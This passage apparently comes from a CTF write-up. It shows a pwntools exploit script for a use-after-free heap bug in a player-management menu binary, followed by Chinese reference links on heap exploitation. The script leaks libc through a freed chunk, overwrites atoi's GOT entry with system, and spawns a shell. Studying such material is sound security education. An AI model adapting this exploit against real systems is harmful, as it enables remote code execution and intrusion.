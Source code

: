 	r.recvuntil("Your choice: ")

	r.sendline('3')

	r.recvuntil("Enter index: ")

	r.sendline('0')

	r.recvuntil("Name: ")

	read_addr=u64(r.recv(4).ljust(8, 'x00'))

	print(read_addr)

	libc=LibcSearcher('read',read_addr)

	base_addr=read_addr-libc.dump('read')

	system_addr=base_addr+libc.dump('system')

	binsh_addr=base_addr+libc.dump('str_bin_sh')

	print(system_addr)

	delete_player('0')

	add_player('a'*32)

	add_player('b'*32)

	delete_player('0')

	delete_player('1')

	atoi_addr=elf.got['atoi']

	print(hex(atoi_addr))

	add_player(p64(atoi_addr)+'a'*(0x17-len(p64(atoi_addr))))

	edit_player_name(p64(system_addr))

	r.recvuntil("Your choice: ")

	r.sendline('sh')

	r.interactive()

参考链接：

<https://0x00sec.org/t/heap-exploitation-abusing-use-after-free/3580>

<http://www.myh0st.cn/index.php/archives/916/>

# **参考链接：**

<https://blog.csdn.net/qq_31481187/article/details/73612451?locationNum=10&fps=1>

<https://www.cnblogs.com/alert123/p/4918041.html>

<https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/use_after_free/>
